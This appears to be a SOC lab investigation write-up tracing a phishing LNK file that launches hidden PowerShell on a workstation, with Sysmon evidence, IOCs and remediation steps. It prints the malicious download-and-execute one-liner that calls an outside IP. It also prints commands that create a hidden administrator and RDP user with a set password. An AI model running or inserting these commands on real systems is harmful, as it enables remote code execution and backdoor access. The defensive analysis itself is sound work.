---
tags:
  - htb
  - socrange
urls:
---
---

## Alert properties
Alert dispatched: Thu 20 Mar 25, 13:48

|**Field**|**Value**|
|---|---|
|**Hostname**|Cooper|
|**L1 Notes**|Upon investigation, the file was found to originate from an email attachment named `2025AnnualReport.zip`. The execution of this LNK file triggered a PowerShell process, which then initiated further suspicious commands. Assigning for further investigations.|
|**File Hash**|`6F927D74FB2075C60F2F7795B718CA571947F3D1E7B591D2D2FD5A35DD5503F8`|
|**File Name**|`2025AnnualReport.lnk`|
|**File Path**|`C:\Users\LetsDefend\Downloads\`|
|**IP Address**|`172.16.17.217`|
|**Trigger Reason**|Shortcut (LNK) file executing a PowerShell script was detected, indicating potential malware activity.|

## Investigation


The employee Cooper received a malicious email the 20th of March at around 13:22 claiming to contain the 2025 Annual Report inside a password protected 7z file :

Note: the L1 analyst mentions a .zip file, actual delivered file is a .7z.

Using a password in an compressed file is a way to avoid AV from scanning the file.

The provided link to download the file is currently down, but VirusTotal security vendors claim it's malicious:


The same day, 25 minutes after receiving the malicious mail, the URL provided hosting an Amazon S3 bucket is accessed via Google Chrome:


Event ID 15 from Sysmon, File Stream Created, shows a download was started, the ZoneTransfer confirms the downloaded file is the malicious 7z file:


Event ID 11 from Sysmon, File Created, shows that the 7-Zip executable was used to decompress it, dropping the malicious .lnk file to the Downloads folder:


Both the .7z and .lnk are still present in the machine:


The content of the malicious .lnk file is the following:


```powershell
PS C:\Users\LetsDefend\Downloads> $s=(New-Object -ComObject WScript.Shell).CreateShortcut('C:\Users\LetsDefend\Downloads\2025AnnualReport.lnk'); "$($s.TargetPath) $($s.Arguments)"

C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -NoP -W Hidden -C IEX(New-Object Net.WebClient).DownloadString('http://18.223.186.129:4444/MBS.ps1')
```

Downloads and runs in memory a script called MBS.ps1 hosted in the IP and port 18.223.186.129:4444

Kaspersky flags the IP as malicious in VirusTotal:


Event ID 1 from Sysmon, Process creation, confirms the execution of the .lnk file:


In consequence, the malicious powershell snippet found inside is executed:


Event ID 3 from Sysmon, Network connection, confirms the connection to the aforementioned IP and Port:


Event ID 4104 from Microsoft-Windows-PowerShell/Operational, shows the contents of the MBS.ps1 PowerShell script:

|**Event log**|**Event ID**|**Command**|**Explanation**|
|---|--:|---|---|
|Microsoft-Windows-PowerShell/Operational|4104|`IEX(New-Object Net.WebClient).DownloadString('http://18.223.186.129:4444/MBS.ps1')`| Downloads and executes in memory the contents of the MBS.ps1 file |
|Microsoft-Windows-PowerShell/Operational|4104|`net share`| Displays resources that are shared in the local computer |
|Microsoft-Windows-PowerShell/Operational|4104|`systeminfo`| Displays informatin about the computer and the OS |
|Microsoft-Windows-PowerShell/Operational|4104|`Get-LocalUser`| Retrieves the local users of the machine |
|Microsoft-Windows-PowerShell/Operational|4104|`Get-WmiObject -Class Win32_NetworkAdapterConfiguration`| Gets the network configuration |
|Microsoft-Windows-PowerShell/Operational|4104|`New-LocalUser -Name "Helpdesk" -Password (ConvertTo-SecureString "P@ssw0rd123!" -AsPlainText -Force)`| Creates a new user named "Helpdesk" with apssword "P@ssw0rd123!" |
|Microsoft-Windows-PowerShell/Operational|4104|`Add-LocalGroupMember -Group "Administrators" -Member "Helpdesk"`| Adds the user "Helpdesk" to the Administrators group |
|Microsoft-Windows-PowerShell/Operational|4104|`Add-LocalGroupMember -Group "Remote Desktop Users" -Member "Helpdesk"`| Adds the user "Helpdesk" to the Remote Desktop Users group, granting RDP access |

The user "Helpdesk" is still present in the machine, confirmed via user and group enumeration:


No more activity observed
## IOCs

| Type                 | Value                            |
| -------------------- | -------------------------------- |
| Email                | michael.johnson@pm.me                                            |
| Payload host IP      | 18.223.186.129                                                   |
| Initial download IP  | 3.5.132.248                                                      |
| 2025annualreport.7z  | 2C8845C1680C9E6F8689112F1BC97F5FC8A4C8F4AE8841BA7667B1B440EE8565 |
| 2025AnnualReport.lnk | 9884EF43F1D881DFB7D7CDED6EF562901FA7A944A7292CDAB17851D2EAB3027B |

## Remediation
1. Remove the malicious files from the Downloads folder.
2. Remove the phishing mail from the mail server.
3. Remove the local "Helpdesk" user.
4. Close the RDP port, if it must be enabled, harden it.

## Conclusion

Evidence supports the findings by the L1 analyst of a malicious .lnk file dropped via phishing, upon execution the file spawned a powershell session that downloaded and ran in memory multiple enumeration and persistence commands in the form a local user added to the Administrator and Remote Desktop Users group.

## Useful links
[ZDI-CAN-25373 Windows Shortcut Exploit Abused as Zero-Day in Widespread APT Campaigns \| Trend Micro (US)](https://www.trendmicro.com/en_us/research/25/c/windows-shortcut-zero-day-exploit.html)
[How to get the groups of a local user through powershell script?](https://stackoverflow.com/questions/21280666/how-to-get-the-groups-of-a-local-user-through-powershell-script)
[Sysmon - Sysinternals \| Microsoft Learn](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon#events)